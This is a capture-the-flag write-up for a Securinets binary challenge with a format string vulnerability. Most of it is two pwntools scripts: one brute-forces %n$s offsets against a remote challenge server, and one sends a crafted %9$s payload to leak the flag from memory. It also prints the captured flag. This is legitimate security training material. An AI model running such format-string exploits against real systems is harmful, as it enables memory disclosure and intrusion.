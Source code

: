![image](https://github.com/user-attachments/assets/8df712ef-03ab-41ba-a351-3e1daa23acde)

This task contains a format string vulnerability due to the way user input is handled in the challenge function.

In this challenge, the flag is stored at a specific memory address inside the program. Our goal is to find this address and leak or manipulate it . 

Since the exact location of the flag is unknown, we brute-force format string offsets (%1$s, %2$s, etc.) to identify which stack position points to the flag.
```Python
from pwn import *
host = "51.77.140.155"
port = 1339
for i in range(1, 16):
    try:
        #p = process("./main")
        p = remote(host, port)
        payload = f'%{i}$s\n'
        p.sendline(payload.encode())
        response = p.recvall().decode().strip()
        print(f"Position {i:2}: {response}")
        p.close()
    except Exception as e:
        print(f"Error testing position {i}: {str(e)}")
```
Now that we’ve identified %9$s as the offset pointing to the flag’s location in memory, we can craft a payload to directly leak the flag. Here’s the workflow:
```Python
#KOOOuull w Wakkell_
from pwn import *
binary = './main'
elf = ELF(binary)
flag_addr = elf.symbols['flag']
p = process(binary)
p = remote("51.77.140.155", 1339)
payload = f'%9$s'.encode().ljust(8, b'A') + p64(flag_addr)
p.sendline(payload)
p.recvuntil(b'called: ')
leak = p.recvline().strip()
info(leak)
p.interactive()
```

![image](https://github.com/user-attachments/assets/aa311869-488c-4d11-89a5-178ee94d1ac0)

FLAG: Securinets{4ba212af96b04be1bf46b7a6ae73e66565b}

Resources :

https://ctf-wiki.mahaloz.re/pwn/linux/summary/get-address/

https://aeb.win.tue.nl/linux/hh/formats-teso.html

